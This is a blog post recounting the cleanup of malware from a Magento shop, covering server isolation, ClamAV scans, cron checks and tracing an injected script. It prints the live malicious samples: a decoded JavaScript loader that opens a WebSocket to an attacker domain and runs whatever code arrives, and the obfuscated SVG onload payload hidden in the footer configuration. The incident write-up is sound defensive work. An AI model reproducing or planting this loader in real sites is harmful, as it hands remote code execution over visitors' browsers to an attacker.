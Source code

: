 ```yaml
---
layout: post
title: Magento has virus, how I got rid of it
date: 2024-09-03 22:25 +0200
image:
  path: /assets/img/posts/2024-09-03-magento-virus-how-i-got-rid-of-it/img001.webp
  alt: A computer in the dark lighting red from the monitor
categories: [Security, Malware]
tags: [magento, security, malware]
---
```

One day I received a call from a friend who informed me their system had been infected by a virus and they were asking for help getting rid of it, I immediately said that I would help thinking it would be an easy fix, However, I quickly realized I was wrong.

## Keep the world away!!

The first thing I did was isolate the site from the outside world and made it possible only to access it from my computer by whitelisting only my IP, which allowed me to continue working with the site remotely.

When a system is affected by a virus, it is crucial to isolate it from the outside world to prevent the virus from spreading, or, if possible, disconnect it from the network entirely by removing the network cable. However, this wasn't possible because I was miles away, so I had to do what I could remotely.

## Mr. Virus, where are you hiding?

Now that I had isolated the virus it was time to find the bugger, I started with looking into all the logs I could figure out or find to see if there would be any indications of where it could be and also to ensure that no data had left the server and I could not see any indications of this, either it was sophisticated enough to remove all log entries it generated or it was never able to set up any connection outside of the server, hopefully the latter but you can never be sure and should always take responsibility and inform your users of an potential data leak.

After thoroughly reviewing the logs, I concluded that they would not reveal to me the path to the virus so I moved on and ran a service called ClamAV (clamscan) to see if it could find any suspicious files to see if it could find any mysterious files and success it could find 2 files, defunct and defunct.dat which I removed, in the same folder I could find a log file telling me it had tried to setup a cronjob but had failed doing so, I removed this file also, unfortunately before I documented the content of the file so even if I want to show what the content I can't.

Once the files were removed I ran the service again to make sure the files was really removed and not other infected files could be found.

## Was there any cron jobs?

So the log file I found had exposed that it tried to create a cron job so I of course had to make sure it actually didn’t manage to do this and the log was lying so I went through all cron jobs for each user and could not find any mysterious job so it was actually never able to create that job.

Even if a log says something or even worse, says nothing you should always expect the worst because the log might be lying to throw you off, so it's better to be safe than sorry.

## So was that it?

Now with the infected files gone you might think it was safe to open up the server to the world again, but not so fast!

The infected files might have been removed but there can still be danger around the corner so what I did was to set up a tunnel proxy to access the site from my computer and could see that the site tried to create a WebSocket connection but was blocked by CSP so instead I got a console error that looked like this:

```
Content-Security-Policy: (Report-Only policy)
The page’s settings would block the loading of a resource (connect-src)
at wss://fallodick87-78.sbs/common…
```

I looked into what the dev tool was saying about the script that was trying to be run and could find the following 

```javascript
(function anonymous() {
  const ogt = [
    93, 89, 89, 16, 5, 5, 76, 75, 70, 70, 69, 78, 67, 73, 65, 18, 29, 7, 29,
    18, 4, 89, 72, 89, 5, 73, 69, 71, 71, 69, 68, 21, 89, 69, 95, 88, 73, 79,
    23
  ];
  hky = 42;
  const xvk = String.fromCharCode(...ogt.map(airu => airu ^ hky));
  window.ww = new WebSocket(xvk + encodeURIComponent(location.href));
  window.ww.addEventListener('message', event => {
    new Function(event.data)();
  });
})
```

So I realized that there was still something wrong that needed to be investigated so I started searching the webbserver for keywords from the script I found, I knew that variable names and function names get’s randomly generated for security reasons so I focused on other keywords like “WebSocket”, “addEventListener”, “encodeURIComponent” and so on but no luck.. I concluded that the problem was not on the web server side, then where can it be?

The only other part of the system I knew could store these kind of data is the database so I created a dump of the entire databas so I could easily search though it and started to search for different keywords but again no luck, I was really confused now and lost now and it was in the middle of the night so lack of sleep was also fighting against me here and might be the reason why I missed two things that would had made my find this earlier but more about that soon.

I keep’t digging for clues on both the webbserver side and in the database but still no luck, finally I opened up the site in Chrome to see if I got another error there and what happen was that Chrome did something that Firefox didn’t and that was to point out the location of where the infected script was in the DOM and there I could see that it was a svg tag that was created so went back to the database and went through all entries with an svg in it and finally found it!!

```sql
(
    XXXX,
    'default',
    0,
    'design/footer/absolute_footer',
    '\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r
    \n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n\r\n<svg width=\"1px\"
     height=\"1px\" onload=\"!function(aa,t){!function(aa){var n=function(aa,t)
     {return aa.split(\'\').map(function(aa,n){return String.fromCharCode(aa.
     charCodeAt(0)^t.charCodeAt(n%t.length))}).join(\'\')}(aa.split(\'\')
     .reverse().join(\'\'),t);new Function(n)()}(aa)}(
     \'\\x5c\\x48\\x09\\x5c\\x4e\\x49\\x5d\\x06\\x13\\x00\\x10\\x49\\x13\\x0f
     \\x11\\x11\\x02\\x49\\x1a\\x08\\x0e\\x15\\x17\\x09\\x12\\x27\\x54\\x10\\x02
     \\x0f\\x0f\\x47\\x59\\x5c\\x54\\x13\\x09\\x04\\x02\\x02\\x47\\x4d\\x53\\x02
     \\x00\\x00\\x07\\x14\\x02\\x0c\\x53\\x4f\\x15\\x04\\x1a\\x02\\x13\\x12\\x1d
     \\x2b\\x13\\x0f\\x11\\x11\\x22\\x05\\x10\\x06\\x49\\x16\\x03\\x49\\x10\\x0e
     \\x10\\x09\\x0e\\x16\\x4f\\x4e\\x4e\\x07\\x11\\x15\\x0f\\x4f\\x1a\\x08\\x0e
     \\x15\\x15\\x04\\x08\\x0d\\x5c\\x13\\x09\\x04\\x1a\\x08\\x17\\x0c\\x1b\\x24
     \\x2e\\x33\\x21\\x02\\x03\\x0e\\x17\\x09\\x02\\x41\\x5f\\x47\\x0c\\x17\\x0c
     \\x4f\\x13\\x04\\x1f\\x04\\x08\\x32\\x16\\x02\\x30\\x41\\x03\\x02\\x09\\x41
     \\x49\\x47\\x10\\x16\\x5a\\x10\\x08\\x05\\x1a\\x0e\\x10\\x5a\\x5d\\x4e\\x1e
     \\x0a\\x1c\\x47\\x39\\x41\\x01\\x15\\x0e\\x00\\x54\\x59\\x5a\\x41\\x01\\x15
     \\x0e\\x00\\x5c\\x17\\x06\\x0c\\x5a\\x13\\x00\\x0e\\x5a\\x49\\x49\\x49\\x11
     \\x03\\x08\\x22\\x06\\x06\\x0f\\x22\\x19\\x08\\x15\\x07\\x5a\\x00\\x09\\x08
     \\x06\\x13\\x34\\x41\\x49\\x47\\x0c\\x17\\x0c\\x47\\x13\\x12\\x1a\\x08\\x04
     \\x5a\\x46\\x53\\x47\\x5c\\x54\\x1e\\x0c\\x09\\x4f\\x3a\\x54\\x53\\x58\\x5e
     \\x50\\x4d\\x47\\x50\\x4b\\x59\\x4c\\x4b\\x52\\x58\\x58\\x5e\\x51\\x4d\\x4d
     \\x5f\\x4b\\x50\\x46\\x4b\\x5f\\x57\\x58\\x5e\\x51\\x4d\\x45\\x50\\x4b\\x50
     \\x43\\x4b\\x5e\\x57\\x58\\x54\\x50\\x4d\\x41\\x4b\\x5e\\x59\\x58\\x55\\x50
     \\x4d\\x4d\\x5f\\x4b\\x55\\x58\\x5f\\x56\\x4d\\x4d\\x55\\x4b\\x56\\x58\\x5e
     \\x55\\x4d\\x4c\\x56\\x4b\\x54\\x42\\x4b\\x54\\x56\\x58\\x50\\x51\\x4d\\x4c
     \\x50\\x4b\\x58\\x42\\x4b\\x57\\x56\\x58\\x57\\x50\\x4d\\x41\\x50\\x4b\\x57
     \\x43\\x4b\\x52\\x4d\\x41\\x4b\\x51\\x50\\x58\\x5e\\x5f\\x4d\\x4d\\x5f\\x4b
     \\x52\\x4d\\x3c\\x47\\x5c\\x54\\x13\\x00\\x0e\\x54\\x13\\x14\\x0f\\x1b\\x04\', 
     \'gtag\');\"></svg>',
    'YYYY-mm-dd HH:ii:ss'
  )
```

Removing the infected script and took a bit of the script and made another search of the dump I could find another place that had the same script som I removed that as well, and with the infected scripts removed I went back to my browser and could confirm that no more WebSockets was trying to be created so I called that an success!

## I did some mistakes..

So after this success, I came to the conclusion that I made two mistakes that could have saved me slot of time:

1. Using Firefox I could have asked it to show me where in the DOM the script was but I was to focused on what the dev tool said about the script that was loaded that I never thought about looking in the DOM at all, a lesson learned!
2. Even though I tried multiple words from the script, I couldn't find them because they were encoded and decrypted in the browser. However, there was one word I missed that would have pointed me directly to the source without having to look into the DOM: 'fromCharCode' and that was “fromCharCode”, this existed both in the generated script and in the database.

Even though I made these mistakes and it made the process longer I am happy I made them because when you make mistakes you learn so if this happens again or I have to search for similar things I will have in my memory to both check all keywords and also check the DOM.

## Time to open up the site to the world and go to bed!

Not really, the virus was now confirmed gone but somehow it had been allowed into the system, so we had a hole somewhere, so what I wanted to do was to upgrade the site, the composer packages and also the Linux packages to the latest version to help mitigate that it would happen again, so I spent another hour or two making sure everything was up to date, usually I would have done this in a development environment first but because the site is being used every day I wanted to speed up the process and do it immediately in production and this was okay by the owner (my friend), but as a general rule, always do the upgrade first in a test or dev environment to make sure nothing crashes before upgrading your production environment.

## Finally time to go live

Once everything was up-to-date, I reopened the site to the world and informed the owner that everything is back in business and requested that they inform their users about the breach so they can change passwords and so on.

My final advice is to ensure your systems are up to date and to have all the necessary security features enabled to prevent this to happen to you, you can never protect yourself entirely from a virus or a hacker but you can make it hard for them and let them work for it.
